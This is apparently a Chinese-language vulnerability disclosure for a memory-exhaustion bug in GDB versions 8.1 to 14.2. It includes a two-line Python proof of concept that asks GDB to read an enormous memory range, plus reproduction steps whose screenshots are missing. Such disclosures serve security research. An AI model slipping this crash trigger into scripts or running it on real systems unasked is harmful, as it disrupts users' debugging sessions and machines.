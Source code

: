 
## 利用 **GDB 8.1~14.2 内存损坏漏洞**

Google Dork: gdb, 内存泄漏, 内存耗尽，内存越界.

日期: 2024.4.2

漏洞作者: N1nEmAn

供应商主页: https://www.sourceware.org/gdb

软件链接: https://sourceware.org/pub/gdb/releases/

版本: 8.1~14.2 (目前已知，可能还有更多)

测试环境: Ubuntu18.02、archlinux-2024

## POC

保存为 `poc.py`，使用 `source /path/to/poc.py`。

```py
import gdb
gdb.selected_inferior().read_memory(0, 18446744073709551615)
```

## 漏洞重现

我们在最新的 GDB (14.2) 中利用了这个漏洞，以下是我的操作系统的详细信息:

```sh
操作系统: Arch Linux x86_64
内核: 6.8.2-zen2-1-zen
内存: 9998MiB / 27746MiB
CPU: AMD Ryzen 7 6800H with Radeon Graphics
GPU: AMD ATI Radeon 680M
```

### 1.加载任意二进制文件#

### 2.运行它并使用Ctrl+C停止
![image-20240402211541005][]
### 3.执行source poc.py
![image-20240402211613585][]
![image-20240402212709525][]
### 4.在Ubuntu中
![image-20240402212845142][]
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTkyMjI5MjM5N119
-->